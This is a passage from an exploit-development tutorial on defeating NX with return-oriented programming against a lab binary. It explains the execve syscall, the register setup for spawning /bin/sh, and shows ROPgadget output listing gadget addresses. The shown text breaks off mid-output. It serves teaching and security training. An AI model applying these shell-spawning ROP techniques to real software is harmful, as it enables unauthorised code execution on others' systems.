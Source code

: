 Now, some combination of a subset of these 12307 gadgets should surely yield us a shell. Before we start mixing and matching, lets take an aside to discuss Linux syscalls.

### Linux Syscalls

Linux system calls or syscalls are interfaces between the user space application and the Linux kernel. Functionality performed by the Linux kernel can be invoked by placing parameters into the right registers and passing control to the interrupt vector 0x80 using the `int 0x80` opcode. Typically, this is not done by the program directly but by calling glibc wrappers.

We will not go too deep into describing how the system calls work and go straight to the system call that interests us the most: execve. The execve system call runs an executable file within the context of the current process.

If we take a look at the libc function, we get the following signature:

`int execve(char const *path, char const *argv[], char const *envp[]);`

Typically, we invoke this function in the following manner to spawn shells.

`execve("/bin/sh", {0}, {0})`

If we take a look at the syscall reference located [here](http://syscalls.kernelgrok.com/), we can see that some parameters are expected in the eax, ebx, ecx, and edx registers.

1. eax - holds the number of the syscall to be called
2. ebx - a pointer to the string containing the file name to be executed
3. ecx - a pointer to the array of string pointers representing argv
4. edx - a pointer to the array of string pointers representing envp

For our purposes, the value that each of the registers should contain are:

```
eax = 0xb
ebx = "/bin/sh"
ecx = memory address -> 0
edx = memory address -> 0
```

### Generating the ROP Chain

Automatically finding the ROP gadgets to perform the `execve` syscall can be done by ROPgadget. It actually even generates the the output as a python script that you can embed into the skeleton.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/6_bypass_nx_rop/build$ ROPgadget --binary 1_staticnx --ropchain
... snip ...
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[+] Gadget found: 0x8050fb5 mov dword ptr [esi], edi ; pop ebx ; pop esi ; pop edi ; ret
	[+] Gadget found: 0x8048453 pop esi ; ret
	[+] Gadget found: 0x80484a0 pop edi ; ret
	[-] Can't find the 'xor edi, edi' gadget. Try with another 'mov [r], r'

	[+] Gadget found: 0x805495b mov dword ptr [edx], eax ; ret
	[+] Gadget found: 0x807299a pop edx ; ret
	[+] Gadget found: 0x80bbb46 pop eax ; ret
	[+] Gadget found: 0x80493e3 xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

	[+] Gadget found: 0x80493e3 xor eax, eax ; ret
	[+] Gadget found: 0x807e1df inc eax ; ret

- Step 3 -- Init syscall arguments gadgets
```